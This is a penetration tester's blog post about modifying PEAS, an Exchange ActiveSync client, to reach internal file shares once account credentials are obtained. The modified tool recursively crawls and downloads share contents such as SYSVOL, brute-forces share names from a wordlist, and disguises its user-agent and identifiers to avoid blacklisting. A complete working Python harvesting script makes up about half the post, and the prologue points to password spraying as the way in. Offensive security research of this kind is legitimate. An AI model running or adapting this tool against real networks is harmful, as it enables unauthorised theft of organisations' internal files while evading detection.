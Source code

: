 ```yaml
---
layout: post
title: "Tuning PEAS for Fun and Profit"
date: 2020-08-22 19:00:00 +0300
author: snovvcrash
categories: /dev
tags: [pentest, exchange, activesync, peas, python]
published: true
---
```


At the recent external pentest engagement I had a feeling that PEAS (Python Exchange ActiveSync client) is missing some handy features. For example, crawling shared folders and auto downloading discovered files would be a nice function to have as well as brute forcing potential shares by a wordlist. To save time I wrote a draft script at the time of the pentest, but then I decided to fork PEAS project and tune the source code.

<!--cut-->

![banner.png](/assets/images/tuning-peas-for-fun-and-profit/banner.png)
{:.center-image}

*"Would you like to be modified?"*
{:.quote}

* TOC
{:toc}

## Prologue

Few pentest experts would argue that if there is an OWA client on the perimeter, then be ready to collect loot. And that is because OWA means MS Exchange, and MS Exchange is not the best spot to demonstrate perfect security. [Time-based username enumeration](https://www.triaxiomsecurity.com/2019/03/15/vulnerability-walkthrough-timing-based-username-enumeration/) will give you account names and a [password spray](https://github.com/sensepost/ruler/wiki/Brute-Force#brute-force-for-credentials) will likely reveal some weak credentials in the domain.

One of the ways where to go next is a hunt for fileshares with juicy content through [Exchange ActiveSync](https://labs.f-secure.com/archive/accessing-internal-fileshares-through-exchange-activesync/). If you dare choose this path, then [PEAS](https://github.com/FSecureLABS/peas) could become your loyal companion along the way, but there is quite a few things that could be upgraded in this tool very simply. I will fork PEAS and add some modifications to the code.

## Crawl & Dump Shared Folders

The first thing I felt the need for was the ability to recursively crawl the share searching for files by a given pattern. Let's say that the only share you were able to guess (or that you had access to) was DC's `SYSVOL`. Then it would be a pain to examine all the GUID style policy paths manually. If we could automate this process and add this `--download` option in order to mirror `SYSVOL` to an attacker's machine, then it would not be a big deal to run `find` through all the content and `xargs grep` for some extra hostnames / account names. That's exactly what [crawl_unc](https://github.com/snovvcrash/peas/blob/master/peas/__main__.py#L298) serves for:

[![peas-crawl-unc.png](/assets/images/tuning-peas-for-fun-and-profit/peas-crawl-unc.png)](/assets/images/tuning-peas-for-fun-and-profit/peas-crawl-unc.png)
{:.center-image}

## Brute Force Share Names

In case you did not find any additional names within `SYSVOL` contents, then you could try to enumerate shares with a brute force attack. The [hostnames.txt](https://github.com/snovvcrash/peas/blob/master/hostnames.txt) wordlist stores some common machine names that will be mutated on-the-fly using predefined patterns and a prefix string (if you provide one). That is what [brute_unc](https://github.com/snovvcrash/peas/blob/master/peas/__main__.py#L351) is responsible for:

[![peas-brute-unc.png](/assets/images/tuning-peas-for-fun-and-profit/peas-brute-unc.png)](/assets/images/tuning-peas-for-fun-and-profit/peas-brute-unc.png)
{:.center-image}

Because I can list the root directory of the share, there is no need to guess child folder names as well — they will appear if the machine have any.

## Fix Encoding

It is also worth noting, that PEAS will likely break if it encounters a non-en-US characters in a pathname. That can be [fixed](https://github.com/snovvcrash/peas/commit/fe5508700246710325b727558b49acd8d954e746) by removing explicitly set UTF-8 encoding.

## Mimic Legitimate Identifiers

As it is stated in [@ptswarm](https://twitter.com/ptswarm)'s [research](https://swarm.ptsecurity.com/attacking-ms-exchange-web-interfaces/):

![ptswarm-peas-1.png](/assets/images/tuning-peas-for-fun-and-profit/ptswarm-peas-1.png)
{:.center-image}

![ptswarm-peas-2.png](/assets/images/tuning-peas-for-fun-and-profit/ptswarm-peas-2.png)
{:.center-image}

Because PEAS is just a **P**ython client for **EAS**, it needs to have a user-agent string and some other identifiers that can easily be fingerprinted and added to a blacklist. Anyways, [changing them](https://github.com/snovvcrash/peas/commit/ee288bef77fb69217a2442c9b5440cd830a7846b) is also quite a straightforward task.

## Draft Script

This is the draft script that was written at the time of engagement before forking PEAS:

```python
#!/usr/bin/env python

# Usage: python2 peas-crawl-shares.py -h

import os
import errno
from random import choice
from string import ascii_uppercase, digits
from argparse import ArgumentParser

import peas
from pathlib import Path, PureWindowsPath


def init_peas_client(server, domain_netbios, user, password):
	client = peas.Peas()
	client.disable_certificate_verification()

	client.set_creds({
		'server': server,
		'user': '%s\\%s' % (domain_netbios, user),
		'password': password,
	})

	print('[*] Auth result: %s' % client.check_auth())

	return client


def list_unc(client, uncpath, show_parent=True):
	records = client.get_unc_listing(uncpath)

	if show_parent:
		print('[*] Listing: %s\n' % (uncpath,))

	output = []
	for record in records:
		name = record.get('DisplayName')
		path = record.get('LinkId')
		is_folder = record.get('IsFolder') == '1'
		is_hidden = record.get('IsHidden') == '1'
		size = record.get('ContentLength', '0') + 'B'
		ctype = record.get('ContentType', '-')
		last_mod = record.get('LastModifiedDate', '-')
		created = record.get('CreationDate', '-')
		attrs = ('f' if is_folder else '-') + ('h' if is_hidden else '-')
		output.append("%s %-24s %-24s %-24s %-12s %s" % (attrs, created, last_mod, ctype, size, path))

	print('\n'.join(output))


def crawl_unc(client, uncpath, download=False):
	records = client.get_unc_listing(uncpath)
	for record in records:
		if record['IsFolder'] == '1':
			if record['LinkId'] == uncpath:
				continue
			crawl_unc(client, record['LinkId'], download)
		else:
			if download:
				try:
					data = client.get_unc_file(record['LinkId'])
				except TypeError:
					pass
				else:
					winpath = PureWindowsPath(record['LinkId'])
					posixpath = Path(winpath.as_posix()) # Windows path to POSIX path
					posixpath = Path(*posixpath.parts[1:]) # get rid of leading "/"
					dirpath = posixpath.parent
					dirpath = mkdir_p(dirpath)
					filename = str(dirpath / posixpath.name)
					try:
						with open(filename, 'w') as fd:
							fd.write(data)
					# If path name becomes too long when filename is added
					except IOError as e:
						if e.errno == errno.ENAMETOOLONG:
							dirpath = Path(dirpath.parts[0])
							extname = posixpath.suffix
							# Generate random name for the file and put it in the root share directory
							filename = ''.join(choice(ascii_uppercase + digits) for _ in range(8)) + extname
							filename = str(dirpath / filename)
							with open(filename, 'w') as fd:
								fd.write(data)
						else:
							raise

			list_unc(client, record['LinkId'], show_parent=False)


def mkdir_p(dirpath):
	try:
		dirname = str(dirpath)
		os.makedirs(dirname)
	except OSError as e:
		if e.errno == errno.EEXIST and os.path.isdir(dirname):
			pass
		# If directory path name already too long
		elif e.errno == errno.ENAMETOOLONG:
			dirpath = Path(dirpath.parts[0])
		else:
			raise

	return dirpath


if __name__ == '__main__':
	parser = ArgumentParser()
	parser.add_argument('-s', '--server', required=True, help='server')
	parser.add_argument('-d', '--domain-netbios', required=True, help='domain NetBIOS name')
	parser.add_argument('-u', '--user', required=True, help='username')
	parser.add_argument('-p', '--password', required=True, help='password')
	parser.add_argument('--uncpath', help='UNC path')
	parser.add_argument('--crawl-unc', action='store_true', help='recursively list all files within specified UNC path')
	parser.add_argument('--download', action='store_true', help='recursively list & download files within specified UNC path')

	args = parser.parse_args()

	client = init_peas_client(args.server, args.domain_netbios, args.user, args.password)
	list_unc(client, args.uncpath)

	if args.crawl_unc:
		if args.download:
			print('\n[*] Listing and downloading all files...\n')
		else:
			print('\n[*] Listing all files...\n')

		crawl_unc(client, args.uncpath, download=args.download)
```

## Modified PEAS

* [snovvcrash/peas](https://github.com/snovvcrash/peas)

## Refs

* [FSecureLABS/peas](https://github.com/FSecureLABS/peas)
* [Accessing Internal Fileshares through Exchange ActiveSync](https://labs.f-secure.com/archive/accessing-internal-fileshares-through-exchange-activesync/)
* [PEAS: Access internal fileshares through Exchange ActiveSync](https://labs.f-secure.com/tools/peas-access-internal-fileshares-through-exchange-activesync/)
* [Attacking MS Exchange Web Interfaces – PT SWARM](https://swarm.ptsecurity.com/attacking-ms-exchange-web-interfaces/)
